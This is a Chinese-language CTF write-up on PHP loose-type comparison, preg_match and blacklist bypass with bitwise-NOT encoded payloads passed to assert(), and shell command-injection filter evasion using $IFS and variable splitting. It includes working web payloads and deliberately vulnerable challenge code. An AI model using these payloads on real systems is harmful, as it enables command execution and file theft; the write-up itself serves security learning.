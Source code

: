 ```yaml
---
title: "PHP弱类型&异或取反&序列化&RCE" # 文章标题.
date: 2023-05-29
draft: false
tags: ["CTF"]
categories: ["PHP"]
---
```


# PHP弱类型&异或取反&序列化&RCE

## PHP-弱类型对比绕过测试

`===`在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。

`==`在进行比较的时候，会先将字符串类型转化成相同类型，再比较。

例如：

`"admin"==0`比较的时候，会将`admin`转化成数值，强制转化，由于`admin`是字符串，转化的结果是`0`自然和`0`相等。

`"1admin"==1`比较的时候会将`1admin`转化成数值，结果为1。

而`"admin1"==1`却等于错误，也就是`"admin1"`被转化成了`0`, 一个字符串当作一个数值来取值，其结果和类型如下:

1. 如果该字符串没有包含`.`，`e`，`E`并且其数值在整形的范围之内该字符串被当作`int`来取值

2. 其他所有情况下都被作为`float`来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。

```php
<?php
var_dump("admin"==0); // true
var_dump("1admin"==1); // true
var_dump("admin1"==1); // flase
var_dump("admin1"==0); // true
var_dump("0e13456"=="0e112233"); // true
```

CTF真题：[矛盾 - Bugku CTF](https://ctf.bugku.com/challenges/detail/id/72.html)

`is_numeric()`函数用于检测变量是否为数字或数字字符串，是则返回True。

思路：构造一个不是数值类型的字符串，但是他转化为数值类型后的值为1。

![靶场](./PHP弱类型/靶场.png)

构造payload：`http://ip:端口/?num=1x`。

也可以添加换行符：`http://ip:端口/?num=1%0a`。

![拿到flag](./PHP弱类型/拿到flag.png)

## PHP-正则preg_match绕过

```php
int preg_match (string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] )
```

搜索`subject`与`pattern`给定的正则表达式的一个匹配。

`$pattern`：要搜索的模式，字符串形式，正则表达式。

`$subject`：输入字符串。

`$matches`：如果提供了参数`matches`，它将被填充为搜索结果。`$matches[0]`将包含完整模式匹配到的文本， `$matches[1]`将包含第一个捕获子组匹配到的文本，以此类推。

`$offset`：通常，搜索从目标字符串的开始位置开始。

返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次。

注意：preg_match()在第一次匹配后 将会停止搜索。preg_match_all()不同于此，它会一直搜索subject 直到到达结尾。

绕过方法：

1. 异或（可以使用各种特殊字符的异或构造出字母和数字）
2. 取反（类似于异或构造出字符串和数字）
3. 数组
4. PCRE
5. 换行符（%0a）

### CTF

2020-第五空间智能安全大赛-Web-hate-php

先对code过滤关键字：`/i`是不区分大小写。

`get_defined_functions()`返回一个二维数组，包括内置函数和用户定义的函数（就是获取php的常见函数）

遍历整个黑名单，如果在code匹配到php的常见函数，就报错。

绕过就可以进行命令执行读取。

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if (preg_match('/(f|l|a|g|/.|p|h|//|;|/"|/'|/`|/||/[|/]|/_|=)/i',$code)) {
        die('You are too good for me');
    }
    $blacklist = get_defined_functions()['internal'];
    foreach ($blacklist as $blackitem) {
        if (preg_match ('/' . $blackitem . '/im', $code)) {
            die('You deserve better');
        }
    }
    assert($code);
}
```

在线运行`$blacklist = get_defined_functions()['internal'];`。

![运行对应函数](./PHP弱类型/运行对应函数.png)



总结：这里存在两个匹配

1. 过滤关键字和特殊字符，绕过思路：取反绕过。
2. 过滤函数

因此即使找到了某个函数恰好可以绕过第一个，也过不去第二个过滤。这样的题目，一般的思路就是利用异或或者取反来绕过。这里用取反来绕过。

首先打印当前目录下的文件：`print_r(scandir('.'))` 

![读取当前文件目录](./PHP弱类型/读取当前文件目录.png)

读取文件的payload为：

```php
<?php
echo urlencode(~'print_r');  //urlencode url编码  ~ 取反
echo "/n";
echo urlencode(~'scandir');
echo "/n";
echo urlencode(~'.');
?> // 生成payload：(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)((~%D1)))
```

![获取文件](./PHP弱类型/获取文件.png)

发现flag.php文件，读取flag.php文件。

![读取flag的payload](./PHP弱类型/读取flag的payload.png)

```php
<?php
echo urlencode(~'highlight_file');
echo "/n";
echo urlencode(~'flag.php');
?>
 // 生成payload：/?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)((~%99%93%9E%98%D1%8F%97%8F))
```

成功拿到flag。

![读取flag](./PHP弱类型/读取flag.png)

总结

取反和异或的选择要看函数的正则表达式的格式。

取反的数字比较多，异或的选择范围更广。

但是如果禁用数字和`^`就需要换其他的方法。

## PHP-命令执行RCE变异绕过

知识点：

存在三种绕过方式（本质都是$IFS）：

注意：`$IFS`是Linux的系统命令。

```bash
空格绕过方式：
$IFS
${IFS}
$IFS$数字
<
<>
```

场景打开如下，猜测有命令执行漏洞。

![靶场](./RCE绕过/靶场.png)

写入自己IP，发现是一个系统命令执行。

![命令执行](./RCE绕过/命令执行.png)

使用管道符，成功列出当前目录下文件，发现flag.php文件。

![查看目录](./RCE绕过/查看目录.png)

尝试读取flag文件，失败，发现过滤了空格。

![空格过滤](./RCE绕过/空格过滤.png)

使用$IFS替换space：`/?ip=127.0.0.1|cat$IFSflag.php`，发现过滤flag的关键字。

![过滤了flag](./RCE绕过/过滤了flag.png)

执行：

```bash
/?ip=127.0.0.1;cat$IFS`ls`
cat$IFS`ls` # 是列出当前目录下的所有文件内容
```

查看网页源代码。

![查看网页源代码](./RCE绕过/查看网页源代码.png)

构造payload，使用`$IFS$2`代替空格，将`flag`拆开为`a=g;fla$a`。

```bash
/?ip=127.0.0.1;a=g;cat$IFS$2fla$a.php
```

![获取flag](./RCE绕过/获取flag.png)